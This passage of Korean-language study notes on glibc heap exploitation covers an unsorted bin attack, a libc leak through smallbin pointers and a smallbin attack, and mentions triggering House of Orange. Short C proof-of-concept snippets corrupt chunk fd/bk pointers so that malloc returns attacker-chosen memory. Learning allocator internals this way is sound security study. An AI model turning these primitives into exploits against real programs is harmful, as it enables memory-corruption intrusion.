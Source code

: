     // buf->size 부분이 unsorted bin에 해당하는 사이즈여야함.
    *(long *)(buf+0x8) = 0x111;

    // unlink시 레퍼런스 에러가 발생안하도록 buf->bk에 사용할수 있는 아무 주소 적기.
    *(long *)(buf+0x18) = (long )&buf+0x30;

    // unsorted bin attack를 트리거하여 unsortedbin->bk를 buf의 주소로수정
    void *b = malloc(0x100);

    // 이후 unsroted bin에서 할당되는 녀석은? buf+0x10
    void *b1 = malloc(0x100);
    }
    ```
    5. 4번 방법을 통하여 중요한 오브젝트를 내가 원하는곳에 할당할 수 있도록할 수 있음. -> 내가 수정할수 있는 곳이면? 오브젝트 컨트롤 가능!
    6. unsorted bin attack으로 File stream pointer를 main_arena+88로 overwrite하여 House of Orange 트리거 가능.

### 1.3.3 small bin을 이용한 테크닉
  - libc leak
    1. unsortedbin 처럼 더블링크드 리스트로 이루어져있어 main_arena.smallbin[idx] 주소를 릭할 수 있음.

  - smallbin attack
    1. chain의 끝 청크를 우선적으로 할당
    2. 리스트 전체의 체인의 손상 여부를 검사하지 않음 
    3. unlink를 이용하여 (smallbin[idx]->bk)->fd 부분과 (smallbin[idx]->bk)->fd->bk 부분만 원하는 주소로 수정해주면 임의의 위치 할당가능!
    4. unlink시 size체크가 없어 쉽게 트리거 가능
    5. but..! 3번 행위를 하기 위해서 최소 같은 idx의 smallbin chunk가 필요함.
    ```c
    char buf[0x100];
    int main(){

    void *a = malloc(0x100);
    malloc(0x30);
    void *a1 = malloc(0x100);
    malloc(0x30);

    free(a);
    free(a1);

    // unlink시 ((smallbin[idx]->bk)->bk)->fd == (smallbin[idx]->bk) 검사함
    // 이부분을 수정하면 원하는 위치에 할당가능
    void *b = malloc(0x300);
    *(long *)(a+8) = (long )&buf;
    *(long *)(a) = (long )&buf;
    *(long *)(buf+0x10) = (long )a-0x10;
    *(long *)(buf+0x18) = (long )a-0x10;

    void *c = malloc(0x100);
    // buf+16부분 할당됌.
    void *c1 = malloc(0x100);
    }
    ```
    
